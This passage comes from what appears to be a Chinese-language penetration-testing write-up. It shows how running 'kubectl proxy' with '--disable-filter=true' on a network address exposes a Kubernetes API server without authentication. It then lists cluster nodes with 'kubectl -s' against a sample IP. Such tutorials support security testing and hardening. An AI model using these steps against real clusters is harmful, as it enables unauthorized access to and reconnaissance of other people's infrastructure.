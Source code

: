 ```plain
kubectl proxy --port=8080 --address=192.168.17.144 --api-prefix=/ --disable-filter=true
```

[![](assets/1701826061-6a4e55565746fb10f43d41b34e78b676.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171652-3c460710-7317-1.png)  
Step 2：之后再浏览器中访问  
[![](assets/1701826061-9d9ed9ddf48d8db7ee8c08dd7fcf0471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171707-44f8aad4-7317-1.png)  
Step 3：之后和 K8s API Server 未授权利用一致，例如：获取节点信息

```plain
#格式说明
kubectl -s ip:port get nodes

#执行实例
kubectl -s 192.168.17.144:8080 get nodes
```

[![](assets/1701826061-e2fc8ae85f71ef306ea29e86ed941125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171727-51097b46-7317-1.png)

### 控制面版
